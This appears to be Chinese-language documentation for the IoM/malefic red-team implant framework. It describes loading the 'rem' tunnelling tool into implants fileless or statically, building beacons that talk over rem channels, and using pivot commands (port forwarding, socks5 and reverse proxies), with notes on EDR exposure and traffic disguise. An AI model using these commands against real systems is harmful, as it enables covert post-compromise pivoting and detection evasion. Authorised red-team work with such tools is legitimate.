

在IoM中，绝大部分网络相关功能都基于rem实现。 但因为rem并非基于rust实现， 但出于多种因素考虑， rem没有成为默认开启的选项， 我们提供了多种加载rem的方式， 使得rem能在绝大多数情况下无缝集成。


## 加载rem

!!! tip "rem 使用简化"
    v0.1.1开始, rem的使用被大大简化，虽然不是默认模块， 但是已经简化到不带来额外的使用和理解困难的程度


在IoM的v0.1.0中集成了一系列rem相关的功能. IoM通过三种方式打通implant与rem的交互。

### 方法1 反射加载EXE程序

rust implant的execute_exe 能完美加载rem， 就像在本地使用一样。 

```
execute_exe rem.exe -- -c [rem_link] ... 
```

或基于RDI的实现
```
execute_shellcode rem.exe -- -c [rem_link] ...
```

!!! example "优点"
    
    - 无文件落地
    - 支持RDI和PIC两种加载方式

!!! danger "缺点"
    
    - 有新进程产生，并且无法使用inline版本的加载器。对某些高强度端上对抗环境有暴露面
    - 与pipeline交互有延迟， 需要等待30-60秒才能将新的pivoting数据同步
    - 只支持windows

### 方法2 动态加载 module

将rem打包成dll, 基于Cgo与FFI实现跨语言调用

对于使用者来说， 不需要关注这些细节， 相关代码已经在[IoM的插件仓库](https://github.com/chainreactors/mal-community/blob/master/community-proxy/modules/rem.lua) 中完成了对应的封装。

上线后，在IoM命令行中执行以下代码即可安装并使用rem。

!!! tip "rem_community"
    rem_community已在v0.1.1打包到client

    ```sh
    # 加载rem dll
    rem_community load 

    # 通过 pipeline 名
    rem_community socks5 rem_pipeline

    # 通过直接 link 地址
    rem_community socks5 tcp://10.0.0.1:5555
    ```

!!! example "优点"
    
    - 相比`execute-exe/execute-shellcode`好的地方在于， 不会有新进程fork， 一切都在当前进程中完成。 
    - 联动IoM rem pipeline，能实时同步pivoting并进行后续管理

!!! danger "缺点"
    
    - 需要反射加载dll, 可能会留下EDR的部分暴露面
    - 只支持windows

### 方法3 静态链接rem

方法1和2都是解决上线后进一步搭建proxy/tunnel，本方法直接支持rem信道上线以及所有的rem提供的proxy/tunnel功能。


```yaml
implants:  
  ......
  enable_3rd: true       # enable 3rd module  
  3rd_modules:            # 3rd module when malefic compile  
    - rem
```

```sh
malefic-mutant generate beacon
```

!!! danger "静态链接限制"
    windows 仅x86_64-pc-windows-gnu支持, linux 均支持

    静态链接的beacon体积会膨胀不少， 但是可以直接使用rem

    ![]

    例如搭建反向socks5代理只需要

    ```
    reverse [rem_defualt]
    ```

    手动指定rem命令

    ```
    rem_dial [rem_default] -- -c ...
    ```

!!! example "优点"
    
    - 支持windows/linux
    - 联动IoM rem pipeline
    - 能复用rem的信道实现上线
    - 只在本进程中执行， 不会fork新进程
    
!!! danger "缺点"
    
    - 体积会膨胀， 大概在10M左右， upx后3-4M
    - 静态链接库不再支持ollvm, 带来一定的静态特征

## rem信道上线

基于静态链接的rem有一个独一无二的优势。 可以直接通过rem构建的内存中的虚拟信道上线。 实现 **malefic over rem**

需要修改implant 的`config.yaml`

```yaml
basic:  
  name: "malefic"  
  targets:  
    - "127.0.0.1:5001"  
  protocol: "rem"  
  tls: false  
  proxy: ""  
  interval: 5  
  jitter: 0.2  
  ca:  
  encryption: aes  
  key: maliceofinternal  
  rem:  
    link: '[rem_link]'
```

运行mutant生成编译配置并编译

```bash
malefic-mutant generate beacon

cargo build --release -p malefic
```

debug 模式下的日志。 可以看到IoM的implant基于通过rem的构建的传输层进行通讯




这样一来， rem支持的所有传输层，加密，伪装混淆都能复用到implant中， 实现流量侧的任意伪装。

## Pivot 命令参考

所有 pivot 命令都依赖 rem 模块，使用前请确保已通过上述方法之一加载 rem。

### portfwd（本地端口转发）
```bash
portfwd [pipeline|url] [flags]
```
将本地端口的流量通过 implant 转发到远程目标。`[pipeline|url]` 可以是 pipeline 名称或直接的 link 地址（如 `tcp://1.2.3.4:5555`）。

**选项:**

| 标志 | 简写 | 类型 | 说明 |
|------|------|------|------|
| `--port` | `-p` | string | 本地监听端口（未指定则随机 20000-40000） |
| `--target` | `-t` | string | 远程目标地址（host:port） |

**示例:**
```bash
portfwd rem_default --port 8080 --target 192.168.1.1:80
portfwd tcp://10.0.0.1:5555 --port 8080 --target 192.168.1.1:80
```

### rportfwd（远程端口转发）
```bash
rportfwd [pipeline|url] [flags]
```
在 implant 端监听端口，将流量转发回本地。

**选项:**

| 标志 | 简写 | 类型 | 说明 |
|------|------|------|------|
| `--port` | `-p` | string | 本地监听端口（未指定则随机） |
| `--remote` | `-r` | string | implant 端连接地址（host:port） |

**示例:**
```bash
rportfwd rem_default --port 8080 --remote 10.0.0.1:3389
rportfwd tcp://10.0.0.1:5555 --port 8080 --remote 10.0.0.1:3389
```

### portfwd_local（本地端口转发到客户端）
```bash
portfwd_local [pipeline] [agent] [flags]
```
将本地端口流量通过 implant 转发到客户端本地。

**选项:**

| 标志 | 简写 | 类型 | 说明 |
|------|------|------|------|
| `--port` | `-p` | string | 本地监听端口（未指定则随机） |
| `--local` | `-l` | string | 本地连接地址（host:port） |

### rportfwd_local（远程端口转发到客户端）
```bash
rportfwd_local [pipeline] [agent] [flags]
```
在 implant 端监听端口，将流量转发到客户端本地。

**选项:**

| 标志 | 简写 | 类型 | 说明 |
|------|------|------|------|
| `--port` | `-p` | string | 本地监听端口（未指定则随机） |
| `--remote` | `-r` | string | implant 内部地址（host:port，必填） |

### proxy（代理服务器）
```bash
proxy [pipeline|url] [flags]
```
通过 implant 创建代理服务器，支持 socks5/http 协议和认证。

**选项:**

| 标志 | 简写 | 类型 | 说明 |
|------|------|------|------|
| `--port` | `-p` | string | 本地监听端口（未指定则随机） |
| `--username` | | string | 代理认证用户名 |
| `--password` | | string | 代理认证密码 |
| `--protocol` | | string | 代理协议（socks/http） |

**示例:**
```bash
proxy rem_default --port 1080
proxy rem_default --port 1080 --username admin --password pass
proxy tcp://10.0.0.1:5555 --port 1080
```

### reverse（反向代理）
```bash
reverse [pipeline|url] [flags]
```
通过 implant 创建反向代理，implant 主动连接回本地。

**选项:**

| 标志 | 简写 | 类型 | 说明 |
|------|------|------|------|
| `--port` | `-p` | string | 监听端口（未指定则随机） |
| `--username` | | string | 代理认证用户名 |
| `--password` | | string | 代理认证密码 |
| `--protocol` | | string | 代理协议 |

**示例:**
```bash
reverse rem_default --port 12345
reverse tcp://10.0.0.1:5555 --port 12345
```

### rem_dial（直接执行 rem 命令）
```bash
rem_dial [pipeline|url] [args]
```
在 implant 上直接执行 rem 命令，适用于需要自定义 rem 参数的高级场景。

**示例:**
```bash
rem_dial rem_default -- -c tcp://10.0.0.1:8888
```
